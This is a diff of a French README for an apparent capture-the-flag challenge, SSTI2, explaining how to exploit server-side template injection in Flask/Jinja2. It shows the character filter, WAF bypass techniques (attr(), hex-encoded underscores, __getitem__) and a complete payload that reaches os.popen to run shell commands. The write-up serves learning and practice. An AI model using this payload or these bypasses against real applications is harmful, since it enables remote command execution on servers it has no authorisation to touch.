

Before and after one commit to exploit4040/SSTI2, a Markdown page: README.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -79,27 +68,27 @@ Fort de cette confirmation, un payload SSTI classique a été tenté :
 > Stop trying to break me >:(
 
-Un pare-feu applicatif (WAF) a bloqué la tentative. Le défi ajoute donc un filtre de caractères qu’il faut contourner.
+Le WAF (Web Application Firewall) a bloqué notre tentative. Il filtre certains caractères et mots-clés. Le défi SSTI2 est donc un SSTI avec filtres qu'il faut contourner.
 
-### 3.1. Caractères filtrés
+### 3.1. Analyse des caractères filtrés
 
-Après tests, le filtre bloque probablement :
+Après plusieurs tests, on déduit que le filtre bloque probablement :
 
-| Caractère / Motif   | Raison                                                  |
-|---------------------|---------------------------------------------------------|
-| `.` (point)         | Empêche l’accès direct aux attributs (`config.__class__`) |
-| `_` (underscore)    | Bloque `__class__`, `__globals__`, etc.                 |
-| `[` `]` (crochets)  | Stoppe l’accès aux dictionnaires (`['os']`)             |
-| `'` `"` (guillemets)| Bloque les chaînes littérales                           |
-| `join`              | Également filtré dans certains cas                      |
-| `0x`                | Encodage hexadécimal classique bloqué                   |
+| Caractère / Motif | Raison |
+|-------------------|--------|
+| `.` (point) | Empêche l'accès direct aux attributs (ex: `config.__class__`) |
+| `_` (underscore) | Empêche l'utilisation de `__class__`, `__globals__`, etc. |
+| `[` `]` (crochets) | Empêche l'accès aux dictionnaires (ex: `['os']`) |
+| `'` `"` (guillemets) | Empêche les chaînes littérales |
+| `join` | Également filtré dans certains cas |
+| `0x` | Encodage hexadécimal classique bloqué |
 
 ---
 
-## 4. Techniques de contournement
+## 4. Techniques de Contournement
 
 ### 4.1. Contournement du point (`.`) avec `|attr()`
 
-Jinja2 propose le filtre `attr()` pour accéder à un attribut via son nom sous forme de chaîne :
+Jinja2 fournit un filtre appelé **`attr()`** qui permet d'accéder à un attribut par son nom sous forme de chaîne :
 
 ```jinja2
 {{ 'foo'|attr('upper') }}
@@ -108,22 +97,25 @@ Jinja2 propose le filtre `attr()` pour accéder à un attribut via son nom sous
 
-**Résultat :** `FOO` — La méthode `upper()` est appelée par l’intermédiaire d’`attr()`.
-Chaque `.` peut donc être remplacé par `|attr('nom_attribut')`.
 
-### 4.2. Contournement de l’underscore (`_`) par encodage hexadécimal
+**Résultat :** `FOO` — La méthode `upper()` a été appelée via `attr()`.
+On remplace donc chaque `.` par `|attr('nom_attribut')`.
 
-Le double underscore `__` est bloqué. En Python, le caractère `_` a la valeur hexadécimale `\x5f`. On peut l’intégrer dans les chaînes.
+### 4.2. Contournement des underscores (`_`) avec Hex Encoding
 
-| Bloqué                 | Encodé en hexadécimal               |
-|------------------------|--------------------------------------|
-| `__`                   | `\x5f\x5f`                           |
-| `__class__`            | `\x5f\x5fclass\x5f\x5f`              |
-| `__globals__`          | `\x5f\x5fglobals\x5f\x5f`            |
-| `__builtins__`         | `\x5f\x5fbuiltins\x5f\x5f`           |
-| `__import__`           | `\x5f\x5fimport\x5f\x5f`             |
+Le double underscore `__` est bloqué. En Python, on peut encoder les caractères en hexadécimal. Le caractère `_` a pour valeur hexadécimale `0x5f`. Dans les chaînes Python, on l'exprime comme `\x5f`.
+
+Ainsi :
+
+| Bloqué | Encodé |
+|--------|--------|
+| `__` | `\x5f\x5f` |
+| `__class__` | `\x5f\x5fclass\x5f\x5f` |
+| `__globals__` | `\x5f\x5fglobals\x5f\x5f` |
+| `__builtins__` | `\x5f\x5fbuiltins\x5f\x5f` |
+| `__import__` | `\x5f\x5fimport\x5f\x5f` |
 
 ### 4.3. Contournement des crochets (`[]`) avec `__getitem__`
 
-Au lieu de `dict['cle']`, on utilise la méthode magique `__getitem__` via `attr()` :
+Au lieu d'écrire `dict['cle']`, on utilise la méthode magique `__getitem__` via `attr()` :
 
 ```jinja2
 |attr('__getitem__')('__builtins__')
@@ -132,18 +124,19 @@ Au lieu de `dict['cle']`, on utilise la méthode magique `__getitem__` via `attr
 
-Cela équivaut à `['__builtins__']`.
+Équivaut à : `['__builtins__']`
 
-### 4.4. Utilisation de `request` comme point d’entrée
+### 4.4. Utilisation de `request` comme point d'entrée
 
-Plutôt que de passer par `config` ou `self`, on exploite l’objet **`request`** de Flask, accessible dans tous les templates. Il donne accès à l’application Flask et à ses variables globales.
+Plutôt que d'utiliser `config` ou `self` (qui sont plus verbeux), on utilise l'objet **`request`** de Flask, qui est accessible dans tous les templates et donne accès à l'application Flask ainsi qu'à ses globals.
 
-**Chaîne d’attributs :**
+**Chaîne complète de remontée d'attributs :**
+
 ```
 request → request.application → application.__globals__ → __builtins__ → __import__ → os → popen
 ```
 
 ---
 
-## 5. Payload final et exploitation
+## 5. Exploitation — Payload Final
 
 ### 5.1. Lister le répertoire
 
@@ -151,5 +144,4 @@ request → request.application → application.__globals__ → __builtins__ →
 {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
 ```
 
-**Décomposition détaillée :**
 
````
Also changed, not shown: other parts of README.md (+74 -74 lines).
